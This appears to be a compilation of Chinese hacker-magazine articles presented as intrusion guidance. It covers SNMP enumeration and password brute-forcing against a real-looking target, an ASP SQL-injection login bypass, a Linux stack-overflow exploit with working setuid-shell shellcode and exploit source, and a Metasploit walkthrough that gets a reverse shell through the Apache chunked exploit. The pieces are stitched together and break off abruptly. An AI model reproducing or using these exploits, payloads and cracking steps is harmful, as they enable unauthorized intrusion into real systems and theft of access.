它的 IIS 设定得很好，没有什么漏洞，由于是静态页面，所以也不存在注入漏洞；21 端口对应的服务又不是 Serv-U 提供的，而是 MS 的，没有可能溢出；最近流行的一些漏洞我也都有试过，没有成功，估计是打了 SP4 及以后的补丁。至于 23 和 3389 端口，我没有用户名，爆破基本无望啊，那么剩下的可利用的漏洞只有 SNMP 的弱口令了。

在说利用之前，先向大家推荐两款工具：一是 snmputil.exe，它能够提供基本的、低级的 SNMP 功能，通过使用不同的参数和变量，可以显示设备情况以及管理设备；二是 tscrack.exe，这个针对 Win2000 终端服务的一个密码破解程序。

snmputil.exe 有三种命令参数：get，getnext，walk，对于我们最有入侵作用的，就是 `snmputil walk`。常用命令如下：

- `snmputil walk 对方ip 口令 .1.3.6.1.2.1.25.4.2.1.2`：列出系统进程
- `snmputil walk 对方ip 口令 .1.3.6.1.4.1.77.1.2.25.1.1`：列系统用户列表
- `snmputil get 对方ip 口令 .1.3.6.1.4.1.77.1.4.1.0`：列出域名
- `snmputil walk 对方ip 口令 .1.3.6.1.2.1.25.6.3.1.2`：列出安装的软件
- `snmputil walk 对方ip 口令 .1.3.6.1.2.1.1`：列出系统信息

工具大家了解了，那么这些命令怎么利用大家有底了吧！我首先用 `snmputil walk 202.*.*.* public .1.3.6.1.2.1.25.4.2.1.2` 列出系统进程，看了看有防火墙和杀毒软件，然后再用 `snmputil walk 202.*.*.* public .1.3.6.1.4.1.77.1.2.25.1.1` 列系统用户列表，如图 1 所示。

得到了 guest、jin、j*、t* 四个用户。接着再做一个小的字典。问我怎么做？它不是有开 80 端口吗，在里面找出电话啊，邮箱名啊，联系人姓名之类的信息，综合一下信息不是就有字典了？好了，现在回到命令行下暴力破解用户口令：`tscrack.exe -w pass.dic -u jin 202.*.*.*`。功夫不负有心人，虽然结果如图 2 所示的 without success，但是在破解过程中却出现了图 3 所示的提示。

不让你登录 3389？也就是说密码是正确的，只不过权限不够。再看看扫描结果，不还有 23 端口吗？Telnet 上去，如图 4 所示。

试试权限大小，如图 5 所示。

试了试几个最新的本地提升权限程序，可惜都没有成功。它不开的服务，既没有 Serv-U，也没有 MSSQL，更没有什么远程控制服务。不仅如此，他的 C 盘的许多目录都是设了权限，我根本就无法访问（所以没有办法下载 SAM 文件来爆破啊）！似乎无路可走了。

# 黑客研究院

缓冲区溢出，这不是一个什么太深奥的课题，但确实不好学，因为它涉及的知识比较广泛，没有一定基础去掌握这种技术，需要相当长的学习过程。要想写篇深入浅出的文章简直是不可能的，一写就虎头蛇尾。我愿意把自己对它的理解写出来，诚献给需要进步的朋友们（我自己这方面也是由于一些知识的局限，也是一个大菜鸟，只是略微学习过，知道了一些入门的思路，提供给大家，希望对有心人有所帮助）。

我们大体知道缓冲区溢出的意思了，但具体怎么实现、怎么选择溢出、触发溢出，乃至溢出后的 shellcode 的使用都是问题。当计算机程序向缓冲区内填充的数据位数超过了缓冲区本身的容量时，溢出的数据就会覆盖在合法数据上，甚至覆盖到别的地方。一个缓冲区溢出应用程序使用这些溢出的数据将汇编语言代码放到计算机的内存中，通常是产生 admin 权限的地方，这就是缓冲区溢出攻击的实质了。

定义局部变量，特别是数组，如果处理不当就会致使栈空间枯竭而引发程序出错，这还不是缓冲区溢出，但已经使栈的局限凸现出来。至于堆更是一个极其不好把握的机制，特别是指针的影响，在编程中，你要是稍微不注意释放堆空间，就很容易产生意想不到的差错，使不会溢出的地方产生了溢出。所以在整个编程过程中，堆栈的溢出问题是很多高手中的高手研究的问题。——也就是说，缓冲区溢出指的就是堆栈段的溢出。

假设我们的目标是编制出来属于自己研究开发的缓冲区溢出攻击程序，并完全可以通过此缓冲区溢出去攻击系统，我们围绕达到此目标要经历的学习步骤写了七个部分：

## 第一部分：知识背景要求

要求你有一定功底的 C 和汇编编程语言基础，熟悉所要攻击的操作系统平台的基本情况（比如 Windows 和 UNIX 的溢出分析有很大的不一样），精通操作系统的内存分配情况、管理情况，以及 C 函数的调用机制的细节实现。看起来好像不多，但做起来有一定难度。

对了，我们要知道单单的缓冲区溢出并不会产生安全问题。只有将溢出送到能够以 admin 权限运行命令的区域才行。这样，一个缓冲区利用程序将能运行的指令放在了有 admin 权限的内存中，从而一旦运行这些指令，就是以 admin 权限控制了计算机。

另外还要知道当程序中发生函数调用时，计算机做如下操作：首先把参数压入堆栈；然后保存指令寄存器（IP）中的内容，作为返回地址（RET）；第三个放入堆栈的是基址寄存器（FP）；然后把当前的栈指针（SP）拷贝到 FP，作为新的基地址；最后为本地变量留出一定空间，把 SP 减去适当的数值。

## 第二部分：需要了解相关的基本知识

缓冲区的定义和意义，我想大家都知道，和硬件 I/O 的 CACHE 差不多的原理。举个例子就是小学时我们做作业，介于课本题目和最终要提交的作业本之间的演算纸的功能。

溢出一般分两种：远程溢出和本地溢出。

- **远程溢出：** 主要是攻击远程主机提供的某种服务，使其溢出到 admin 的权限，这取决于目前运行的服务器程序。
- **本地溢出：** 就是利用本地的服务漏洞进行溢出。

## 第三部分：原理

当一个超过事先定义长度的数据进入到缓冲区时，超出部分就会被溢出到其他紧邻缓冲区。其他缓冲区本来存放的可能是数据、下一条指令的指针，或者是其他程序的输出内容，这些内容都会被覆盖或者破坏掉。那么这一小部分数据就更改了原来预定的系统规则。如果是一个精心的溢出，在下一个缓冲区存放的合法、允许执行的命令被溢出成了一个有危险的指令，比如添加用户、打开服务这样的命令，那就导致了缓冲区溢出攻击！

在物理层面上，缓冲区是程序运行时计算机内存中的一个连续的块，它保存了各种类型的数据。为了不占用太多的内存，一个有动态分配变量的程序在程序运行时才决定给它们分配多少内存。

缓冲区是内存中存放数据的地方。在程序运行过程中，程序将代码和数据放到计算机内存中的某一位置，这也就把内存分为大致 4 个分区：

| 分区 | 说明 |
| :--- | :--- |
| 代码区域（Code） | 存放程序中的各个指令代码块 |
| 全局数据区域（Data） | 存放程序中的全局数据和静态数据 |
| 堆区（Heap） | 存放程序中的动态数据 |
| 栈区（Stack） | 存放程序中的局部数据，也就是各个函数中的数据 |

## 第四部分：基本技术理解

- 1. 随着函数调用层数的增加，函数栈帧是一块块地向内存低地址方向延伸的；随着进程中函数调用层数的减少，即各函数调用的返回，栈帧会一块块地被弹开而向内存的高地址方向回缩。
- 2. 各函数的栈帧大小随着函数的性质不同而不同，由函数的局部变量的数目决定。
- 3. 程序进程对内存的动态申请是发生在堆（Heap）里的。也就是说，随着系统动态分配给进程的内存数量的增加，Heap（堆）有可能向高址或低址延伸，依赖于不同 CPU 的实现。但一般来说是向内存的高地址方向增长的。
- 4. 在非初始化数据（也就是 BSS 数据）或者 Stack（栈）的增长耗尽了系统分配给进程的自由内存的情况下，进程将会被阻塞，重新被操作系统用更大的内存模块来调度运行。
- 5. 函数的栈帧里包含了函数的参数（至于被调用函数的参数是放在调用函数的栈帧还是被调用函数栈帧，则依赖于不同系统的实现），它的局部变量以及依次调用该函数的函数的栈帧（也就是前一个栈帧）所需要的数据，其中包含了调用函数的下一条执行指令的地址。
- 6. 非初始化数据（BSS）区用于存放程序的静态变量，这部分内存都是被初始化为零的。初始化数据区用于存放可执行文件里的初始化数据，这两个区统称为数据区。
- 7. Code 区域（文本区）是个只读区，任何尝试对该区的写操作会导致访问违法出错。文本区是被多个运行该可执行文件的进程所共享的，文本区存放了程序的代码。
- 8. 缓冲区在 Heap（堆）区或 BSS 区的情况：如果缓冲区的内存空间是在函数里通过动态申请得到的（如：用 new() 函数申请），那么在函数的栈帧中只是分配了存放指向 Heap（堆）中相应申请到的内存空间的指针。这种情况下，溢出是发生在堆中的，想要覆盖相应的函数返回地址看来几乎是不可能的。这种情况的利用可能性要看具体情形，但不是不可能的。如果缓冲区在函数中定义为静态（static），则缓冲区内存空间的位置在非初始化（BSS）区，和在 Heap（堆）中的情况差不多，利用是可能的。但还有一种特殊情况，就是可以利用它来覆盖函数指针，让进程后续调用相应的函数变成调用我们所指定的代码。

你还要知道有关函数的具体细节问题，譬如：函数调用时所建立的栈帧包含了函数的返回地址、调用函数的栈帧信息（即栈顶和栈底）、为函数的局部变量分配的空间、为被调用函数的参数分配的空间（取决于不同系统的实现）。参数的入栈顺序由右向左（即函数最右边的参数最先入栈，依次到最左边的），以及被调用函数对参数和局部变量的访问遵循的原则。

## 第五部分：造成缓冲区溢出的原因

溢出根源在于编程。现在的流行语言是 C，但是 C 语言却没有建立自动检测机制。标准 C 语言具有许多复制和添加字符串的函数，这使得标准 C 语言很难进行边界检查。C++ 略微好一些，但是仍然存在缓冲区溢出。一般情况下，覆盖其他数据区的数据是没有意义的，最多造成应用程序错误；但是，如果输入的数据是经过精心设计的，覆盖缓冲区的数据恰恰是“黑客”或者病毒的入侵程序代码，一旦多余字节被执行，“黑客”或者病毒就有可能为所欲为，获取系统的控制权。当然深入掌握缓冲区溢出程序的编写，核心就集中在这个“精心的设计”上！

## 第六部分：防范缓冲区溢出的技术手段

保护缓冲区免受缓冲区溢出攻击的影响，主要有以下几种方法：

### 1. 强制写正确的代码的方法
编写正确的代码是一件非常耗力的工作，特别是像编写 C 语言那种具有容易出错倾向的程序。我们有一些常见的溢出避免措施，比如采用 strncpy 和 snprintf 这些替代函数来防止缓冲区溢出的发生。还有人们开发了一些高级的查错工具，如 fault injection 等，目的在于通过人为随机地产生一些缓冲区溢出来寻找代码的安全漏洞。还有一些静态分析工具用于侦测缓冲区溢出的存在。虽然这些方法帮助程序员开发更安全的程序，但是由于 C 语言的特点，这些方法不可能找出所有的缓冲区溢出漏洞。

### 2. 通过操作系统使得缓冲区不可执行
通过使被攻击程序的数据段地址空间不可执行，从而使得攻击者不可能执行被植入输入缓冲区的代码，这种技术被称为非执行缓冲区技术。这种方法有效地阻止了很多缓冲区溢出攻击，但攻击者并不一定要植入攻击代码来实现攻击，所以这还不是一个完美的方法。

### 3. 利用编译器的边界检查来实现缓冲区的保护
这个方法使得缓冲区溢出不可能出现，从而完全消除了威胁，但是相对而言代价比较大。主要依赖于编译器的增强功能和安全检测工具。

### 4. 在程序指针失效前进行完整性检查
虽然这种方法不能使得所有的缓冲区溢出失效，但它的的确确阻止了绝大多数的攻击，而能够逃脱这种方法保护的攻击也很难实现。

所有的缓冲区溢出漏洞都源于 C 语言缺乏类型安全保障，所以解决问题的彻底方法是发明一种安全的语言（如 Java 的出现），但也丧失了一些 C 的优点。掌握缓冲区溢出的知识，是成为黑客的一个必要途径。

## 第七部分：进阶必读

以下是针对缓冲区溢出的优秀参考文章，推荐阅读：《Windows 2000 缓冲区溢出入门》、《Window 系统下的堆栈溢出》、《堆栈溢出从入门到提高》、《高级缓冲区溢出》、《远程缓冲区溢出》、《编写自己的缓冲区溢出利用程序》。

## 后记

这篇小文不是什么深奥的技术文章，只是一些入门的引导和必要的知识介绍。作为缓冲区溢出的知识点，每个点都可以作为大课题来认真学习，希望有心涉及此类的朋友能得到一点启示。（附录里有篇很好的文章，手把手教你分析并写出一个溢出程序，收录在光盘中）

---

# 黑客研究院

脚本在网络中的应用随处可见，ASP、PHP、CGI 等常见脚本语言被广泛应用于新闻发布系统、BBS、电子商务等 WEB 服务中。在当今各种系统漏洞不断被发现、补丁越打越频繁的时代，利用系统漏洞（如缓冲区溢出）进行入侵正变得越来越难。然而，脚本漏洞却不同，它随着新功能的不断出现而增加。脚本漏洞攻击对于黑客来说极具生命力，永远不会淘汰。

那到底什么是脚本呢？它和 HTML 及编程语言有什么不同？其实脚本语言是一种介于 HTML 与 Pascal、C++、Visual Basic 等编程语言之间的语言。它以“操作系统 + 脚本引擎（脚本解释器）+ 脚本语言”的方式工作，而编程语言编译出的程序以“操作系统 + 应用程序”的方式工作。脚本语言一般不直接编译成可执行文件。HTML 是一种纯解释性语言，我这里说的并不是 HTML 编译成可执行文件，所以说脚本语言是介于两者之间的。最大的区别在于编程语言的语法和规则更为严格和复杂。

脚本引擎是用于处理脚本的 COM（组件对象模型）程序。当解释完毕后，脚本引擎把执行结果（通常是 HTML 格式）发送给浏览器。客户端浏览器可以以变量的形式向脚本程序提交数据和指令。如果脚本程序处理这些变量时存在漏洞，就是脚本漏洞攻击得以实施的基础。

为了加深理解，我们通过一个实例来讲解。这里有一个用 ASP 编写的登录页面，要求输入用户名和密码：

```asp
username=Request.form("username")
password=Request.form("password")
sql="select * from admin where username='"&username&"' and password='"&password&"'"
rs.open sql,conn,0,3
if not rs.EOF then
  Session("login")=true
  Response.Redirect ("login.asp")
end if
```

上面的代码中，如果攻击者在用户名和密码框中都输入 `'or'1'='1`，就可能绕过认证。问题出在表单变量没有经过任何过滤就直接传给了 SQL 语句。生成的 SQL 命令会变成：

```sql
SELECT * from Users WHERE login = '' or '1'='1' AND password = '' or '1'='1'
```

由于 SQL 执行的是布尔运算，`'1'='1'` 永远为真，整条查询语句的结果为真，服务器会认为条件成立，从而让攻击者以合法身份登录。这就是最经典的 SQL 注入式攻击。在实际应用中，程序员通常会进行过滤，攻击会更加复杂，需要寻找绕过过滤的方法。

## 原理篇

本文只讨论针对 Intel x86 Linux 平台上的攻击方式，并假设读者有一定的 C 语言基础。如果你对“堆栈”概念尚不了解，建议先温习课本。

首先看可执行文件在虚拟地址空间内的内存布局：

shellcode 通常被放在自己构造的 buffer（作为漏洞程序的参数输入）或环境变量中，位于堆栈段。因为进程的数据段和代码段线性地址是重叠的（从 0-3GB），所以尽管 shellcode 在数据段，仍然可以被执行。

## 实战篇

我们来体验一下真正攻击的乐趣吧。你应该明白 hack 一词并不是入侵的意思，只有为 GNU 无私贡献的人才是真正的黑客！以下是一个有漏洞的程序 `vul.c`：

```c
/* Compile: gcc vul.c -o vul */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]){
    char buf[512];
    if(argc < 2){
        printf("Please input something!\n");
        exit(1);
    }
    strcpy(buf, argv[1]);
    return 0;
}
```

由于未对 `argv[1]` 做边界检查，过长输入时会产生溢出。用二分法测试：

```bash
[Strike@ph4nt0m test]$ ./vul `perl -e 'print "A"x500'`
未溢出
[Strike@ph4nt0m test]$ ./vul `perl -e 'print "A"x550'`
Segmentation fault
[Strike@ph4nt0m test]$ ./vul `perl -e 'print "A"x524'`
Segmentation fault
[Strike@ph4nt0m test]$ ./vul `perl -e 'print "A"x522'`
未溢出
```

在输入 524 个字符时发生溢出。函数调用时，参数、返回地址（RET）、EBP 依次被压入堆栈。如果输入的变量超过分配的缓冲区大小，就会覆盖掉堆栈中保存的 EBP 和 RET。如果我们用一个精心构造的值去覆盖 RET，函数返回时将跳转到我们指定的地址去执行（通常是 shellcode），从而达到攻击目的。

# 黑客研究院

```c
Starting program: /home/Strike/test/vul `perl -e 'print "A"x524'`

Program received signal SIGSEGV, Segmentation fault.
0x00000002 in ?? ()
(gdb) i reg
.......
ebp        0x41414141        0x41414141
```

此时 ebp 寄存器中已经不是合法的堆栈段地址，而变成了我们超长输入的“A”（A 的 ASCII 码是 41），所以程序运行到这里就 Segmentation fault。

如何攻击？我们用 524 字节刚好覆盖 ebp，那么再加 4 字节也就是用 528 字节的输入就能覆盖掉 ret。如果覆盖 ret 的值是一个合法的可执行的内存地址，那么程序就将跳转到我们指定的地方去执行。

Stack 溢出有几种攻击方式，为了让读者概念清晰，我们选用经典的填充 NOPS 的方法。

我们在自己的 exploit 中构造如下的 buffer：`RRRRRRRRNNNNNNNNNNNNNNNNNNNNNNNNNSSSSSSS`

N 代表 NOPS 指令，S 代表 shellcode，R 是用来覆盖堆栈中 ret 的那个值。很明显，R 应该是该 buffer 的起始地址 + 偏移量 offset。正确的话，R 应该指向 N 区段，因为 NOPS 什么也不做，这样最终就能跳转到 shellcode 去执行。

这里有一个很大的问题！下面是我们开始书写自己的攻击程序：

```c
/* [root@ph4nt0m test]$ vim exp.c */
#include <stdio.h>
#include <unistd.h>
#include <string.h>

char shellcode[] =
"\x31\xdb\x89\xd8\xb0\x17\xcd\x80"
"\x31\xc0\x50\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e\x89\xe3\x89"
"\x64\x24\xdc\x89\x44\x24\x10\x8d"
"\x4c\x24\xdc\x8b\x54\x24\x08\xb0"
"\x0b\xcd\x80";
/* 这段 shellcode 执行：setuid(0); /bin/sh
 * 以此为证，本文暂不讨论 shellcode 的编写，
 * 以后会在适当的时候给予介绍 */

int main(int argc, char *argv[])
{
    /* 构造我们自己写的 buffer，这实际上是作为 vul 的 argv[1] */
    char buf[1024];
    /* retaddr 是准备将用来覆盖 ret 的内存地址
     * offset 是用来调整偏移量的，之后会用到 */
    unsigned long retaddr;
    int i, offset=0;
    if(argc>=2)
        offset=atoi(argv[1]);
    retaddr=(unsigned long)&buf-offset;
    /* 先把整个 buffer 填满 NOPS */
    memset(buf,0x90,sizeof(buf));
    /* 再往 buffer 的前端填充 ret，就是“RRR......”结构，
    之前已经证明 528 字节即可覆盖 ret，这里用 600 字节 > 528 符合条件，
    保证 ret 肯定能被覆盖，并且又不能往里面添加过多无用的 R，因为 R 多了 N 就会少，减少成功几率 */
    for(i=0;i<600;i+=4)
        *(long *)&buf[i]=retaddr;
    /* 把 shellcode 拷贝到 buffer 尾部的区域，这样 RNS 结构就完成了 */
    memcpy(buf+900, shellcode, strlen(shellcode));
    /* 以 buf[1024] 为参数执行漏洞程序 */
    execl("./vul", "vul", buf, NULL);
    return 0;
}
```

为了使效果明显，我们给 vul 加上“suid”位，然后来攻击：

```bash
[Strike@ph4nt0m test]$ su
Password:
[root@ph4nt0m test]# chmod u+s ./vul && exit
[Strike@ph4nt0m test]$ gcc exp.c -o exp
[Strike@ph4nt0m test]$ ./exp
sh-2.05a#
```

哈哈可爱的“#”看到了吧？别高兴得太早！想一下，我们的 exp 没加参数就运行了，此时 offset 为 0，照这么说 retaddr=buf，ret 被覆盖后将跳转到 RRRR……里，结果应该是 Segmentation fault，但为什么我们的攻击成功了？

由于我们是在 exp 程序中用 exec 系列函数来调用漏洞程序 vul 的，当 exec 系列函数调用成功时，我们的 exp 程序进程的内存影像就完全被 vul 的进程内存影像所替代了，显然这两个进程的堆栈布局不一样。

而且我们并没有办法知道两个进程的栈顶之间到底差多少的精确值，所以我们只能估算。那么我们的攻击完全是一种猜测行为？

在使用非环境变量的方法中确实是这样的，但这决不是瞎猜，而是有依据的。

由于进程的栈底（溢出程序和被溢出程序）都是不变的（或者变化很小），堆栈段的段选择子也相同，所以猜测保存在栈中的 shellcode 地址的任务就是两个进程栈栈底（这里的描述不够严谨，将就地理解吧）的差值——所谓的 OFFSET，明白了吧？我们再来测试一下：

```bash
[Strike@ph4nt0m test]$ ./exp 100
sh-2.05# exit
[Strike@ph4nt0m test]$ ./exp 200
sh-2.05# exit
[Strike@ph4nt0m test]$ ./exp 300
sh-2.05# exit
[Strike@ph4nt0m test]$ ./exp 400
Segmentation fault
```

如上所示，因为我们的 buffer 很大，NOPS 很多，所以在一个很宽的范围内都能成功溢出。

如果你已经理解这种攻击方法，那么推荐继续阅读以下文档以完善攻击技能：aleph1，《Smashing the Stack for Fun and Profit》、黑猫，《如何编写自己的缓冲区溢出利用程序》、ipxodi，《堆栈溢出系列讲座》、刺，《缓冲区溢出笔记之一——STACK 溢出》、OYXin，《利用 execve() 函数写无 nops exploit》、warning3，《单字节缓冲区溢出》。

下一次我们将介绍更高难度的堆(heap)溢出，See you next stage!

## 偷天不泄——谁与争锋
### 记一款测试工具
孟方明 [-273℃]

### 一、前言

随着越来越多的漏洞被公布出来，相应的 exploit 程序也在不断的增加。如今为了找一个漏洞的 exploit，常常要翻遍整个 exploits 文件夹，费时、费劲。曾几何时，我想过写一个漏洞集合工具，将常用的 exploit 集合到一个程序里，需要哪个的时候就调用哪一个，然而由于各种原因（主要是我这个人懒），一直未能付诸行动。在一个偶然谈话间，我知道了一个工具，使用后发现这个工具竟然就比我一直想写却未能写的工具还要出色。到底是怎样的工具呢？往下看就知道了。

### 二、屠龙现身

工具的名字叫 Metasploit，按照作者最初的目的，这个工具是用来进行渗透测试、IDS 开发以及 exploit 研究使用的，但是对于入侵者来说，却是一款不错的工具。工具分 UNIX 平台和 WIN 平台两个包来发布的，其中 WIN 平台还要 cygwin 来支持。由于大部分读者都是使用的 Windows 操作系统，所以我就以 WIN 平台的 metasploit 为例来讲解，UNIX 平台的大同小异。

下载回来的只有一个 EXE 文件，大小约为 15MB 左右，依照提示进行安装，安装程序会自动安装 cygwin，整个安装过程非常简单。安装完毕后在程序组里增加了一个 metasploit framework 的组。

重点就是 MSFConsole 和 MSFWeb 这两个了，我们依次来介绍吧！进入 MSFConsole 界面后，我们可以输入“?”来获得在线帮助，如图 1。

```text
Metasploit Framework Main Console Help

?        Show the main console help
cd       Change working directory
exit     Exit the console
help     Show the main console help
info     Display detailed exploit or payload information
quit     Exit the console
reload   Reload exploits and payloads
save     Save configuration to disk
setg     Set a global environment variable
show     Show available exploits and payloads
unsetg   Remove a global environment variable
use      Select an exploit by name
version  Show console version
```
图 1

中文解释如下：

| 命令 | 说明 |
|---|---|
| cd | 更换工作目录 |
| exit | 退出控制台 |
| help | 获得在线帮助 |
| info | 显示 exploit 或者 payload 相关详细信息 |
| quit | 退出控制台 |
| reload | 重新加载 exploits 和 payloads |
| save | 保存配置 |
| setg | 设置全局环境变量 |
| show | 显示可用的 exploits 和 payloads |
| unsetg | 删除一个全局环境变量 |
| use | 根据名字使用一个 exploit |
| version | 显示控制台版本 |

重点就在这三个命令上：info、show 和 use。先让我们来看一下当前支持的 exploit 都有哪些吧，在控制台提示符下输入 `show exploits`，结果如图 2。

```text
msf > show exploits

Metasploit Framework Loaded Exploits
...
```
图 2

左边是 exploit 的名字，右边是该 exploit 的简单说明。接着看 payloads，在这里大家有可能会有所疑问，exploit 不就是针对漏洞的利用程序了吗？那么 payloads 是干什么用的呢？其实这正是该工具的最大特点。payloads 在这里就是指 shellcode，也就是说我们可以任意组合 exploit 和 shellcode 来达到我们不同的目的。先看一下都有哪些 payload 吧，输入 `show payloads`，结果如图 3。

```text
msf > show payloads

Metasploit Framework Loaded Payloads
...
```
图 3

同样，左边是 payload 的名字，右边是 payload 的简要说明。大家可以看到，有专门针对 Unix 系统（像前面几个以 bsd 和 sol 开头的 payload），还有专门针对 Linux 系统（前面是 linux 开头的 payload），最后还有针对 Windows 系统的（以 win 开头的 payload）等。针对不同的系统都作了详细的划分。

接下来我们要看的是 info 命令了，这个命令也用来显示 exploit 或者 payload 的详细信息的！这个可是非常重要的。比如我们想看一下 apache_chunked_win32 这个 exploit 的详细信息，我们就在提示符下输入：`info exploit apache_chunked_win32`，结果如图 4。

列出了很多的信息，其中需要大家注意的就是开头部分，这里说明了该 exploit 支持的系统版本，还有一个更重要的地方就是图中被框起来的那部分信息，说明了该 exploit 的可用选项如下：

| Exploit | Name | Default | Description |
|---|---|---|---|
| optional | SSL |  | Use SSL |
| required | RHOST |  | The target address |
| required | RPORT | 80 | The target port |

Exploit 列中是说明该选项是否必须，其中 optional 代表可选项，required 代表必选项；Name 列说明了选项的名字，这是非常重要的；Default 列说明某选项是否有默认值；最后一列是简单的描述。

上面是 exploit 的详细信息，payload 呢？如图 5。同样需要注意的就是框中的那部分，说明同上面的 exploit 部分。有可能大家会问，知道了这些有什么用呢？继续看下面你就会明白了。

最后要看的命令就是 use 了，这个命令就是实际入侵时要用到的命令。从该命令又会引出一些子命令来，我们来看一些实例吧。比如说我们发现了一个 apache 服务器存在 apache chunked 漏洞，我们可以这样操作。

- 1. 我们先用 `show exploits` 查看一下这个漏洞的 exploit 的名字。在这里是 `apache_chunked_win32`，我们在控制台提示符下输入：`use apache_chunked_win32`，结果如图 6。

```text
msf > use apache_chunked_win32
msf apache_chunked_win32 >
```

- 2. 接下来我们要看看这个 exploit 都针对哪些 apache 版本。输入 `show targets`，结果如图 7。在这里利用 `info exploit apache_chunked_win32` 看到的开头的信息是一样的。然后我们来设置目标系统的版本（比如我们用 2，针对 NT 系统）使用如下命令：`set TARGET 2`，如图 8。

```text
msf apache_chunked_win32 > show targets

Supported Exploit Targets
=========================
0 Windows NT/2K Brute Force
1 Windows 2000
2 Windows NT

msf apache_chunked_win32 > set target 2
target => 2
```

- 3. 设置我们要使用的 payload（也就是 shellcode）。由于目标系统是 Win 平台，我们就要从以“win”开头的 payload 里来选择。比如我们这里使用 `winreverse`（反向连接方式的 shellcode）。输入下命令：`set PAYLOAD winreverse`，结果如图 9。

```text
msf apache_chunked_win32 > set PAYLOAD winreverse
PAYLOAD => winreverse
```

- 4. 设置好 exploit 和 payload 后，我们来看看还需要设置的参数有哪些。输入 `show options`，结果如图 10。返回结果是我们用 `info exploit apache_chunked_win32` 和 `info payload winreverse` 得到的可用参数信息的集合。我们看看哪些参数是必须的（前面是 required 的）：RHOST、RPORT、LHOST 和 LPORT，含义分别是远程地址、远程端口、本地地址和本地监听端口。参数都知道了，我们依次来设置如下：

```text
msf apache_chunked_win32(winreverse) > show options

Exploit and Payload Options
===========================

Exploit:
Name    Default  Description
SSL              Use SSL
RHOST            The target address
RPORT   80       The target port

Payload:
Name      Default  Description
EXITFUNC  seh      Exit technique: "process", "thread", "seh"
LHOST              Local address to receive connection
LPORT     4321     Local port to receive connection

msf apache_chunked_win32 > set RHOST 192.168.1.241
RHOST => 192.168.1.241
msf apache_chunked_win32 > set RPORT 8080
RPORT => 8080
msf apache_chunked_win32 > set LHOST 192.168.1.244
LHOST => 192.168.1.244
msf apache_chunked_win32 > set LPORT 4444
LPORT => 4444
```

这样设置完成后，我们就可以进行溢出攻击了。不过在溢出...

# 黑客研究院

之前我们还是进一步确认漏洞是否存在吧，输入 check 后返回结果如下：

```
msf apache_chunked_win32 > check
[*] Vulnerable server 'Apache/1.3.22 (Win32)'
```

⑤ 开始攻击吧！输入 exploit 确认后，结果如下：

```
msf apache_chunked_win32 > exploit
[*] Trying to exploit Windows NT using return 0x1c0f1022 with padding of 348...
[*] Trying to exploit Windows NT using return 0x1c0f1022 with padding of 352...
[*] Connection from '192.168.1.241:1036...'

Microsoft(R) Windows NT(TM)
(C) Copyright 1985-1996 Microsoft Corp

c:\program files\apache group\apache>
```

哈哈成功了！这就是一次入侵实例，通过实例我们了解了如何使用命令控制台进行溢出攻击的步骤。看到这里是不是有的朋友要说了，这么麻烦啊——不错，一开始确实有点麻烦，不过熟悉了也就好了。让我们再来看看尽量使用鼠标而少用甚至不用键盘的操作，毕竟大多数初学者更喜欢使用鼠标，继续往下看哦！

上面讲的是命令控制台，那么我们在文章的开始部分还提到了一个 web 控制台，怎么用呢？先在程序组里找到这个程序并启动它，启动完毕后的界面如图 11。


图 11

然后我们打开 IE，在 IE 地址栏里输入如下地址“http://127.0.0.1:55555”，如图 12。


图 12


图 13

在这里我们可以选择我们想要用到的 exploit，比如还向上面的例子那样使用 Apache Win32 Chunked Encoding。鼠标左键点击它，如图 13。

